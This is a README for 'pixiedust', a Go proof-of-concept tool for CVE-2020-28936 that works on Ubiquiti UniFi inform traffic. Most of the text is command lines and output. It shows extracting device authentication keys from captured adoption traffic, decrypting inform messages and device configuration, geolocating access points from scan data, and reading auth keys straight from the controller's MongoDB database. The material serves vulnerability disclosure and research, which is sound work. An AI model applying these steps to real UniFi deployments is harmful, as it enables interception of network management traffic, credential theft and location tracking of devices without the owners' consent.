 # pixiedust
Tool for exploring Ubiquiti UniFi inform traffic & proof of concept for [CVE-2020-28936](https://jade.wtf/words/unifi-l3inform-crypto).

## Building
1. You need [go](https://golang.org/). 
2. Clone git repo.
3. `go build`

## Usage

Extract keys from pcap of device adoption:
```
$ ./pixiedust -in unifi-fresh-usw.pcap -findkeys -message=false -logtostderr=false
0ee876dee74ff09c2e88387ecda39512
```

View inform sent from device (truncated here):
```
$ ./pixiedust -in unifi-fresh-usw.pcap  | jq | head -10
I1120 00:15:22.540899   13221 extraction.go:59] discovered key: 0ee876dee74ff09c2e88387ecda39512 for 10.0.1.48
{
  "architecture": "armv7l",
  "board_rev": 9,
  "bootid": 0,
  "bootrom_version": "usw-USHR3_v1.0.11.60-ga2f339b1",
  "cfgversion": "?",
  "default": true,
```

View config settings as applied to device (filtered to inform response because big output...):
```
$ ./pixiedust -in unifi-fresh-usw.pcap 2>&1|head -3|tail -2
{"_type":"setparam","mgmt_cfg":"capability=notif,fastapply-bg,notif-assoc-stat\nselfrun_guest_mode=pass\ncfgversion=bd4b0ca608dd9ca5\nled_enabled=false\nstun_url=stun://unifi:3478/\nmgmt_url=https://unifi:8443/manage/site/default\nauthkey=0ee876dee74ff09c2e88387ecda39512\nuse_aes_gcm=true\nreport_crash=true\n","server_time_in_utc":"1605818282220"}
I1120 00:11:43.163105   13121 extraction.go:59] discovered key: 0ee876dee74ff09c2e88387ecda39512 for 10.0.1.48
```

Geolocate WiFi APs by scan data (and suppress inform request/response so you don't miss it): 
```
$ export PD_MAPS_API_KEY=your_key_here
$ ./pixiedust -in locinform.pcap -locate -message=false
Device E063DA85AAC5 at 37.533223,-121.998402 (32.000000)
Device E063DA85AAC5 at 37.533154,-121.998379 (122.000000)
Device E063DA85AAC5 at 37.532886,-121.997456 (164.000000)
Device E063DA85AAC5 at 37.532843,-121.997286 (175.000000)
Device E063DA85AAC5 at 37.532932,-121.998446 (125.000000)
Device E063DA85AAC5 at 37.532959,-121.998441 (125.000000)
Device E063DA85AAC5 at 37.532993,-121.998439 (125.000000)
Device E063DA85AAC5 at 37.532977,-121.998488 (60.000000)
Device E063DA85AAC5 at 37.532987,-121.998509 (101.000000)
```

## Need keys and don't want to wait for an adopt?
Here's an example of how you'd retrieve current keys from UniFi controller's database:
```
admin@unifi:~$ mongo 127.0.0.1:27117/ace
MongoDB shell version v3.6.8
connecting to: mongodb://127.0.0.1:27117/ace
Implicit session: session { "id" : UUID("b29aa101-e19d-42c6-86f0-bfe0be52af81") }
MongoDB server version: 3.6.8
Server has startup warnings:
2020-11-09T22:48:24.711+0000 I CONTROL  [initandlisten]
2020-11-09T22:48:24.712+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2020-11-09T22:48:24.712+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2020-11-09T22:48:24.712+0000 I CONTROL  [initandlisten]
>  db.device.find({}, {x_authkey:1, _id: 0})
{ "x_authkey" : "0d90127a28666c197a1d1798258a2036" }
>
bye
```
